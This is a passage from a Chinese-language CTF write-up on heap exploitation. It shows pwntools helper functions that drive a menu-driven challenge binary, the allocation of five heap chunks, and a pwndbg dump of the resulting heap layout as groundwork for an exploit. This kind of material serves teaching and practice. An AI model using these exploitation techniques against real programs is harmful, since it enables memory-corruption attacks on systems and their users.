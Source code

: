 ```python
    p.sendline(str(index))
    p.recvuntil('size: ')
    p.sendline(str(size))
    p.recvuntil('content: ')
    p.sendline(str(content))

def drop(index):
    choose(3)
    p.recvuntil('index: ')
    p.sendline(str(index))

def show(index):
    choose(4)
    p.recvuntil('index: ')
    p.sendline(str(index))
    p.recvuntil('content: ')
    return u64(p.recv(8))
```

## 创建5个所需要的堆块
> tips：所需要的堆块个数边写exp边调整
>

```python
create(0x18) #0  0x18==24
create(0x68) #1
create(0x68) #2
create(0x68) #3
create(0x68) #4
```

heap memory：

> 虚线表示各个堆块的实际大小
>

```python
pwndbg> x/70gx 0x555555757000
------------------------------------------------------------------------
0x555555757000:	0x0000000000000000	0x0000000000000021 #index0
0x555555757010:	0x0000000000000000	0x0000000000000000
------------------------------------------------------------------------
0x555555757020:	0x0000000000000000	0x0000000000000071 #index1
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757090:	0x0000000000000000	0x0000000000000071 #index2
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757100:	0x0000000000000000	0x0000000000000071 #index3
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757170:	0x0000000000000000	0x0000000000000071 #index4
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x5555557571e0:	0x0000000000000000	0x0000000000020e21 #top_chunk
......(省略数据的内容均为空)
0x555555757220:	0x0000000000000000	0x0000000000000000
------------------------------------------------------------------------
pwndbg>
```
